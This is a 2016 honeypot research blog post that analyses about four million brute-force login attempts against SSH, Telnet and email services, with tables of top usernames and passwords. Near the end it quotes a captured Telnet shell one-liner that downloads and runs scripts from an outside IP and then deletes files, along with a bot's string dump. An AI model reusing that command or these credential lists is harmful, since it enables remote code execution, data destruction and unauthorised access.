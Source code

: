 ```yaml
---
title: "Initial analysis of four million login attempts"
authors: ["Johnny Vestergaard"]
date: "2016-09-09"
categories: 
  - "analysis"
tags: 
  - "analysis"
  - "heralding"
  - "honeypot"
---
```


**Introduction**

This blog post is a follow up to an [earlier article](https://honeynet.org/node/1321), where I set out to conceive a system that could deliver the data needs to answer 5 specific questions.

**The setup**

To provide the data needed for this analysis, my setup consisted of 4 VPS situated respectively at Amazon EC2, Azure, MeeBox and a Danish ISP end-user connection. Even though the same 4 VPS were used throughout the data collection, 6 different IP addresses were used for the honeypots - the reason for this was that one of the honeypots had a dynamically assigned IP address. As mentioned in an [earlier article](https://honeynet.org/node/1321) all honeypots were running Heralding. The technical setup was automated with ansible.

**Time period and initial data**

A subset of all collected data was selected for analysis, the subset covered the period 24. may 2016 to 24. august 2016. In this period there were 4,369,149 login attempts. For each login attempt the following data was available:

timestamp, session\_id, auth\_id, protocol, source\_ip, source\_port, destination\_ip, destination\_port, username, password.

**Which protocols does my adversary try to brute-force?**

Since Heralding only supports 6 protocols (8 if you include ssl wrapped http and pop3), the possibility space is limited to the supported protocols. Furthermore the HTTP capability only supports basic authentication and the pop3 and smtp implementations also only supports a limited subset of the authentication mechanisms normally available for said protocols.

As expected the two most targeted protocols was SSH and Telnet, these two protocols combined saw around 93% of all brute force activity. More surprisingly it was found that SMTP and POP3 only saw around 7% of all activity, I expected the numbers for email protocols would be higher, but maybe SMTP relays sells too cheap to be worth the hassle?

**Attacks per protocol**

| Protocol | Attempts | Percentage |
|----------|----------|------------|
| SSH      | 2,717,874| 62%        |
| Telnet   | 1,353,050| 31%        |
| SMTP     | 196,601  | 5%         |
| POP3     | 83,420   | 2%         |
| HTTP     | 17,990   | <1%        |
| FTP      | 194      | <1%        |
| HTTPS    | 20       | <1%        |
| POP3S    | 0        | 0%         |

**Which username and password did he use?**

A total of 11685 usernames and 128001 was collected during the period. Not surprisingly the username root comes in at a first place with 2955040 login attempts. More surprising the second most attempted password was _/bin/busybox MIRAI_, this is most definitely not an password attempt - but looks more like trying to execute some known malware. Never the less this was attempted 106969 times, it would be interesting to look at the timing of these - maybe it can be correlated with OSINT on this specific malware. Update: For further information in regards to MIRAI, check this [article](http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html?m=1) by [MalwareMustDie](http://malwaremustdie.org).

**Top 5 usernames**

| Username | Attempts |
|----------|----------|
| root     | 2,955,040|
| admin    | 300,637  |
| shell    | 147,641  |
| support  | 114,015  |
| sh       | 107,741  |

**Top 5 passwords**

| Password           | Attempts |
|--------------------|----------|
| enable             | 107,361  |
| /bin/busybox MIRAI | 106,969  |
| 12345              | 105,879  |
| admin              | 101,248  |
| 1234               | 89,741   |

A curated list of all attempted passwords can be found [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_passwords.txt) and a list of usernames [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_usernames.txt).

**Future work**

Still 3 of the original questions need to be answered, the data is at hand - and will result in another blog post when I find the time. For the record, the remaining questions are:

- At which speed did he brute-force?
- From where did he proxy from?
- What time of day did he brute-force?

Also it would be interesting to do an analysis of username and password combinations.

One thing i especially noted, is that some of telnet login attempts is not normal bruteforce activity. Some of it looks to be raw shell exploitations attempts:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://104.207.135.146/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 104.207.135.146 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 104.207.135.146; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 104.207.135.146 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *`

Others looks to be some kind of malfunctional bot:

`Failed opening raw socket.Failed setting raw headers mode.all,synrstfinackpshInvalid flag "%s"PONG!GETLOCALIPMy IP: %sSCANNERSCANNER ON | OFFOFFSCANNER STOPPED!ONSCANNER STARTED!HOLDJUNKUDPTCPKILLATTKLOLNOGTFO8`

And now it gets plain old weird, this entry looks like logs from another honeypot: `Failed telnet attempt - 2.180.25.253:root:toor Failed telnet attempt - 120.36.60.61:admin:toor`

Want to do your own analysis or crazy visualizations? [Contact me](mailto:jkv@unixcluster.dk), and I will provide you with the raw data (IP addresses will be sanitized). The only condition, is that your analysis must be made public.

 

Regards,

Johnny Vestergaard

[LinkedIN](https://www.linkedin.com/in/johnnykv)

[Mail](mailto:jkv@unixcluster.dk)
